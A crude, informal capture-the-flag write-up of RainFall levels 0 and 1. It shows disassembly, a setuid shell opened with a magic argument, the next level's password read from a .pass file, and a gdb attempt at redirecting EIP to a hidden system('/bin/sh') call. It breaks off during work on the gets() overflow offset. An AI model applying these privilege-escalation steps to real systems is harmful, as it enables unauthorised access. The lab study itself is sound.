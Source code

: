 # rainfall
Kill me, I'm getting kicked out, this is an intro to pwn I think
```
level0@RainFall:~$ ./level0 
Segmentation fault (core dumped)
```
*wtf fucking kill me, I give up*
```
level0@RainFall:~$ file level0 
level0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=0x85cf4024dbe79c7ccf4f30e7c601a356ce04f412, not stripped
```
*yay not stripped*
```
level0@RainFall:~$ ls -al
-rwsr-x---+ 1 level1 users  747441 Mar  6  2016 level0
```
*nice, the SUID perm again*

Using **binary ninja**, found that the executable calls execve("/bin/sh")
```
mov     dword [esp], data_80c5348  {"/bin/sh"}
call    execv
```
## ROP ( Return-oriented programming) ecploit
Googled it, although I've done pwning before but still can't fucking explain anything

**The main idea is to use the existing small fragments in the program based on the stack buffer overflow. ) to change the value of some registers or variables to control the execution flow of the program.**

It's called ROP because we use the **ret** instruction to change the order in which the instruction stream is executed.

### What the fuck am I doing

```
level0@RainFall:~$ checksec --file level0 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   level0
```
*NX is enabled, meaning you can't use shellcode or put anything on the stack in order to execute it.*

**binary ninja**
```
mov     dword [esp {var_30}], eax
call    atoi
cmp     eax, 0x1a7
```
*compares atoi(arg) to **0x1a7 which is 423**, I love me those compares*
```
level0@RainFall:~$ ./level0 423
$ ls
ls: cannot open directory .: Permission denied
$ getflag
/bin/sh: 2: getflag: not found
$ /bin/getflag
/bin/sh: 3: /bin/getflag: not found
```
*so it opend a shell using execv('/bin/sh'), but nothing special is happening when i execute anything*

this shit calls **setresuid** and a bunch of weird looking functions before execv
### I dont know the point of this project yeeeet, that's why I'm fucking executing getflag from the snowcrash shit
Oh so I need to find a way to read a .pass file in the next user's home directoryy

*ugh*

```
$ cat /home/user/level1/.pass
1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```
**yayyyy**
```
level0@RainFall:~$ su level1
Password:1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```
## level1
```
level1@RainFall:~$ file level1 
level1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x099e580e4b9d2f1ea30ee82a22229942b231f2e0, not stripped
```
*yay, good mood today*

Executable waits for input then when u enter input it fucking leaves, the fuck

**binary ninja this bitch**
```
call    gets
leave    {__saved_ebp}
retn     {__return_addr}
```
*yup gets then ret, kill me*

Buuuut there's a function run, that isn't called anywhere in the main, with a call to **system('/bin/sh')**
```
mov     dword [esp {var_1c}], data_8048584  {"/bin/sh"}
call    system
```
### how the fuck do you jump to this stupid shit
the binary is an **ELF 32-bit LSB executable**, need to find address of the run function and jump to it

address of run function **08048444** using objdump -d, **8048496** is for RET instruction to jump to break in it and overrid RIP with the run function address
```
level1@RainFall:~$ gdb ./level1
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) b *8048496
Breakpoint 2 at 0x7acf70
(gdb) r
Starting program: /home/user/level1/level1 
Warning:
Cannot insert breakpoint 2.
Error accessing memory address 0x7acf70: Input/output error.

(gdb) disassemble main 
Dump of assembler code for function main:
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50
   0x08048489 <+9>:     lea    eax,[esp+0x10]
   0x0804848d <+13>:    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave  
   0x08048496 <+22>:    ret    
End of assembler dump.
(gdb) b *main+22
```
gdb fucking got retarded, so hat to clear all breakpoints using **clear breakpoint**
```
(gdb) c
Continuing.
hello

Breakpoint 3, 0x08048496 in main ()
(gdb) set $eip=0x08048444
(gdb) c
Continuing.
Good... Wait what?
$ cat /home/user/level2/.pass
cat: /home/user/level2/.pass: Permission denied
```
**what the fuck whyyyyyyyy**

So apparently gdb runs executable without SUID
```
$ id
uid=2030(level1) gid=2030(level1) groups=2030(level1),100(users)
```
**FUCKING KILL ME**, would've been so easyyyy, why is life so hard ans unfair
#### getting the fucking offset to EIP, because I'm gay
buffer oferflow occurs because the gets() function doesnt have a limit on the reading size, 